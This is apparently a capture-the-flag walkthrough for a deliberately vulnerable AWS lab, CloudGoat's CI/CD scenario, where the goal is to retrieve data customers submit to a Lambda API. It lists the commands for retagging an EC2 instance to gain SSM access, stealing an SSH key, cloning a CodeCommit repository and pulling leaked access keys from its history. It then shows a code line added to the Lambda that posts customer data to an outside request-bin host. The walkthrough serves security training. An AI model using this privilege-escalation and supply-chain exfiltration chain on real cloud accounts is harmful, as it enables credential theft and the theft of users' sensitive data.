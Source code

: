 # CICD
FooCorp is a company exposing a public-facing API. Customers of FooCorp submit sensitive data to the API every minute to the following API endpoint:
```
POST {apiUrl}/prod/hello
Host: {apiHost}
Content-Type: text/html
```
superSecretData=...
The API is implemented as a Lambda function, exposed through an API Gateway.

Because FooCorp implements DevOps, it has a continuous deployment pipeline automatically deploying new versions of their Lambda function from source code to production in under a few minutes.

Goal: Retrieve the sensitive data submitted by customers.

Note that simulated user activity is taking place in the account. This is implemented through a CodeBuild project running every minute and simulating customers requests to the API. This CodeBuild project is out of scop

# Walkthrough

## Login 
```
aws configure --profile api

aws sts get-caller-identity --profile api

Identify permissions
aws iam list-user-policies --user-name ec2-sandbox-manager --profile api
Found initial-policy

Get the policy
aws iam get-user-policy --user-name ec2-sandbox-manager --policy-name initial-policy --profile api
 {
  # Creates and deletes tags if it is matching dev.
      "Action": [
          "ec2:CreateTags",
          "ec2:DeleteTags"
      ],
      "Condition": {
          "StringLike": {
              "ec2:ResourceTag/Environment": [
                  "dev"
              ]
          }
      },
      "Effect": "Allow",
      "Resource": "*"
  },
  # Starts an SSM session if we have the sandbox tag set
  {
      "Action": [
          "ssm:*"
      ],
      "Condition": {
          "StringLike": {
              "ssm:ResourceTag/Environment": [
                  "sandbox"
              ]
          }
      },
      "Effect": "Allow",
      "Resource": "*"
  },

```

## List ec2 instances and alter tags
```
aws ec2 describe-instances --profile api  > output.json
Found instance: i-0bfec60277649d4d0. Note that the instance name is dev-instance. 
The instance has a tag for dev environment.

Modify Tags
aws ec2 create-tags --tags Key=Environment,Value=sandbox --profile api --resources i-0bfec60277649d4d0

Connect to instance
aws ssm start-session --target i-0bfec60277649d4d0 --profile api

Start a bash session
bash -l
```

## Steal SSH Keys
```
Key Location
cd /home/ssm-user
ls .ssh/
Found id_rsa

cat .ssh/id_rsa

In your local machine
nano private_key.pem
Save the output of .ssh/id_rsa here

chmod 600 private_key.pem
```

## Identify the ssh key id of the key for cloning
```
ssh-keygen -f private_key.pem -l -E md5 
Received fingerprint of 2048 MD5:f4:9c:6c:30:04:a9:2a:5a:fc:4b:a1:e5:60:ab:a1:d2 no comment (RSA)

List users
aws iam list-users --profile api
Found user cloner 

Get ssh key 
aws iam list-ssh-public-keys --user-name cloner

Get finger print of key
aws iam get-ssh-public-key --user-name cloner --ssh-public-key-id APKAZY5445TNWPGIBCVJ --encoding PEM --output text --query 'SSHPublicKey.Fingerprint
f4:9c:6c:30:04:a9:2a:5a:fc:4b:a1:e5:60:ab:a1:d2 -> Same as the fingerprint above. Therefore key id is APKAZY5445TNWPGIBCVJ
```

## Clone git commit repository
```
aws codecommit list-repositories --profile api
Found backend-api repository

Configure ssh key in host file. Add the following lines in ~/.ssh/config
# For code commit
Host git-codecommit.*.amazonaws.com
  User APKAZY5445TNWPGIBCVJ
  IdentityFile <path to private_key.pem>/private_key.pem
  PubkeyAcceptedAlgorithms +ssh-rsa
  HostkeyAlgorithms +ssh-rsa

Clone
git clone ssh://APKAZY5445TNWPGIBCVJ@git-codecommit-.us-east-1.amazonaws.com/v1/repos/backend-api

Show commits
cd backend-api
git log
Foudn commit id for buildspec.yml f826d31aeeca17f9cbe7d76bcb0de0cd3909a785

Show what was changed in commit
git show f826d31aeeca17f9cbe7d76bcb0de0cd3909a785
Found Access key and secret access key
```

## Change Lambda code
```
We need to post the data to our custom webpage. Create one here: https://pipedream.com/requestbin
Copy the link and insert the following into the app.py
def handle(event):
  body = event.get('body')
  import requests; requests.post("https://XXXXX.m.pipedream.net", data=body) <- ADDED
  if body is None:
    return 400, "missing body"

Export Access keys as per above
export AWS_ACCESS_KEY=..
export AWS_SECRET_ACCESS_KEY=...

Get parent commit 
aws codecommit get-branch --repository-name backend-api --branch-name master --region us-east-1
Found commit id a61d8de821a6cb036a23da13595806e5bd64c5ac

Commit 
aws codecommit put-file --repository-name backend-api --branch-name master --file-content fileb://./app.py --file-path app.py --parent-commit-id a61d8de821a6cb036a23da13595806e5bd64c5ac --region us-east-1

```

## Get flag!
Wait at least 5 minutes for the code to deploy to lambda. Monitor you pipedream to identify the post request

You should see the following in your body: superSecretData=FLAG{SupplyCh4!nS3curityM4tt3r5"}


# References

# Trouble Shooting
### Problem with ECR - Error: local-exec provisioner error or docker only accepts 1 argument
```
Replace the line in cloudgoat/scenarios/cicd/terraform/vulnerable-buildspec.yml.tftpl and cloudgoat/assets/src/buildspec.yml
- aws ecr get-login-password ...
with 
- aws ecr get-login-password --region us-east-1 | docker login --username AWS --password-stdin <ACCOUNT ID>.dkr.ecr.us-east-1.amazonaws.com
```

### Problem with ssm: An error occurred (TargetNotConnected) when calling the StartSession operation: i-0bfec60277649d4d0 is not connected.
Need to create new security group for ec2, only allow HTTPS outbound 
Create vpc endpoints for ssm, ec2messages, ssmmessages. Allow HTTPS inbound from vpc CIDR and outbound HTTPS

### Problem with executing API
Change the docker file to the one specified in this directory. In particular the docker file should use python3.10
